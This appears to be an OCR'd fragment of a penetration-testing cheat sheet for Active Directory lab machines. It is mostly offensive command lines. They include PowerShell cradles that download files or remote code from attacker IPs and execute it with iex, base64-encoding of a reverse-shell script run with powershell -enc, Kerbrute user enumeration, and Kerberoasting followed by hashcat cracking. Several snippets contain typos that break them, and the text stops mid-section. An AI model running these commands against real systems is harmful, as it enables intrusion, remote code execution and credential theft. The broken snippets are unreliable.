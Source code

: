 ```bash

powershell -c (New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")

Invoke-WebRequest "http://10.50.27.84:8000/PowerView.ps1" -OutFile "PowerView.ps1"
```
- More methods using powershell
```bash
# Method 1:
iex (New-Object Net.WebClient).DownloadString('<URL>')

# Method 2:
$ie = New-Object -ComObject InternetExplorer.Application
$ie.visible=$False
$ie.navigatate('<URL>')
sleep 5
$response=$ie.Document.Body.innerHTML
$ie.quit()
iex $response

# Method 3:
iex (iwr '<URL>')

# Method 4:
$h = New-Object -ComObject Msxm12.XMLHTTP
$h =.open('GET', '<URL>', $false)
$h.send()
iex $h.responseText

# Method 5:
$wr = [System.NET.webRequest]::Create('<URL>')
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

- Converting normal powershell ps1 to base64
```bash
cat rev.ps1 | iconv -t UTF16-LE | base64 -w 0 
``` 

- Then call it using
```bash
powershell.exe -enc "ENCODED COMMAND"
```
## Kerbrute:
- We can check if the user exist on domain controller using
```bash
/opt/kerbrute/kerbrute userenum --dc 10.129.97.156 -d BLACKFIELD.local actual-users.txt
```

## Kerberoasting Cheatsheet:
https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
- If we have a account username and password we can kerberoast using it
```bash
GetUserSPNs.py "DOMAIN"/"USERNAME":"PASSWORD" -request -outputfile hash

GetUserSPNs.py -dc-ip "DC IP" "DOMAIN"/"USERNAME":"PASSWORD" -request -outputfile hash
```
- We can then crack it using hashcat
```bash
hashcat -m 13100 -a 0 hash ~/Desktop/rockyou.txt --force
```
- If we get `CLOCK_SKET_TOO_GREAT` match the time with the DC time
```bash
# ON LINUX
```